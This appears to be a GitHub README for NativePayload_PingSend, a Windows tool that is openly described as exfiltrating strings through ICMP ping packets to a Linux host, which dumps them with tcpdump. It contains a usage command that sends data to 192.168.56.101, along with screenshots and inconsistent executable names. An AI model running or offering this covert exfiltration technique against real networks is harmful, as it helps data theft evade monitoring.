 # NativePayload_PingSend
## NativePayload_PingSend sned data/string (exfiltration) to destination ip via icmp ping packets

## as you can see with this code you can send data/string via ping request to linux side via ping linux ipaddress, and in liunux side with tcpdump you can dump those string/data in ping packets


           md5 info 8cb240e3f7011728e00d5cef79b1facd => NativePayload_NetMonitor.exe


### Source code tested by .Netframework 4.7.2 

### Target Platform x64 is ok.

    usage (Run As Admin): NativePayload_NetMonitor.exe ipaddress "string"    
      example NativePayload_PingSend.exe 192.168.56.101 "your string which want to send to target ipaddress via icmp ping packets"


###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp2.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/netmon3.png)

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_PingSend"/></a></p>
